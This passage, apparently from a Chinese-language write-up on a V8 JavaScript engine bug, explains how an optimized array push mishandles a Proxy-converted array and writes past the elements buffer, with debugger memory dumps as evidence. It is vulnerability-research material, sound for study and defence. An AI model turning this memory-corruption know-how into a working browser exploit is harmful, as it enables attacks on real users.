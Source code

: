 目前为止并没有发生异常，接下来注意在`Proxy`中我们将`Double`数组转化为`object`数组，原本保存为`16`字节的参数会被转化为`8`字节的`Object`指针，转化之后的参数还会重新申请一块内存来保存

```shell
DebugPrint: 0000028408085F79: [JSArray]
 - map: 0x028408241909 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x028408208dcd <JSArray[0]>
 - elements: 0x0284080861b5 <FixedArray[9]> [HOLEY_ELEMENTS]
 - length: 8
 - properties: 0x0284080406e9 <FixedArray[0]> {
    #length: 0x028408180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x0284080861b5 <FixedArray[9]> {
           0: 0x028408086199 <Object map = 00000284082402D9>
         1-5: 0x028408040385 <the_hole>
           6: 0x0284080861ed <HeapNumber 1.04326e-309>
           7: 0x0284080861e1 <HeapNumber 1.04326e-309>
           8: 0x028408040385 <the_hole>
 }

0:000> dd 0x0284080861b5-1 L2
00000284`080861b4  080404b1 00000012
0:000> dd 0x0284080861b5-1+8
00000284`080861bc  08086199 08040385 08040385 08040385	// [0] [1] [2] [3]
00000284`080861cc  08040385 08040385 080861ed 080861e1	// [4] [5] [6] [7]
00000284`080861dc  08040385 0804035d 00000000 00018018	// [8]
00000284`080861ec  0804035d 00000000 00018018 00000000
00000284`080861fc  00000000 00000000 00000000 00000000
```

我们可以看到在`vuln_array[6]`和`vuln_array[7]`处保存的指针，指向的就是`map+double vallue`的值，常规情况下如果再`push`的话，修改的就应该是`vuln_array[8]`处的指针。但是由于漏洞的存在，优化之后的push是不知道这一切的，他还是会像处理`Double`数组那样直接把`16`字节的值复制到`[elements+8*16]`的位置。

```shell
DebugPrint: 0000028408085F79: [JSArray]
 - map: 0x028408241909 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x028408208dcd <JSArray[0]>
 - elements: 0x0284080861b5 <FixedArray[9]> [HOLEY_ELEMENTS]
 - length: 9
 - properties: 0x0284080406e9 <FixedArray[0]> {
    #length: 0x028408180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x0284080861b5 <FixedArray[9]> {
           0: 0x028408086199 <Object map = 00000284082402D9>
         1-5: 0x028408040385 <the_hole>
           6: 0x0284080861ed <HeapNumber 1.04326e-309>
           7: 0x0284080861e1 <HeapNumber 1.04326e-309>
           8: 0x028408040385 <the_hole>
 }

0:000> dd 0x0284080861b5-1 L2
00000284`080861b4  080404b1 00000012
0:000> dq 0x0284080861b5-1+8
00000284`080861bc  08040385`08086199 08040385`08040385
00000284`080861cc  08040385`08040385 080861e1`080861ed
00000284`080861dc  0804035d`08040385 00018018`00000000
00000284`080861ec  00000000`0804035d 08244b81`00018018
00000284`080861fc  00018018`00000000					// [elements+8*16]即Double数组的vuln_array[8]
```
